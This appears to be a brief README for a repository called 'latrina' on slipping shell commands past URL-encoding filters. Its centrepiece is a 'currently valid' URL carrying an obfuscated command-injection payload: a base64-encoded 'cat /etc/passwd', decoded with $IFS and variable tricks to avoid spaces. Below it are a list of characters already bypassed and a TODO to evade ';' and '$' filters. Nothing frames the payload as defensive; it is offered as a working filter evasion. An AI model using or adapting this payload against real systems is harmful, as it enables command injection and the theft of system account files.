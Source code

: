 # latrina
bypass url encoding with nontrivial commands

currently valid:
https://github.com/kusky3/latrina/blob/main/;a=('Y2F0IC9ldGMvcGFzc3dkCg==');b=('base');c=$IFS;d=64;$($b$d$c-d$c<<<$a)



# bypassed
```
"
{
}
' ' # space
```

# TODO
bypass ; and $
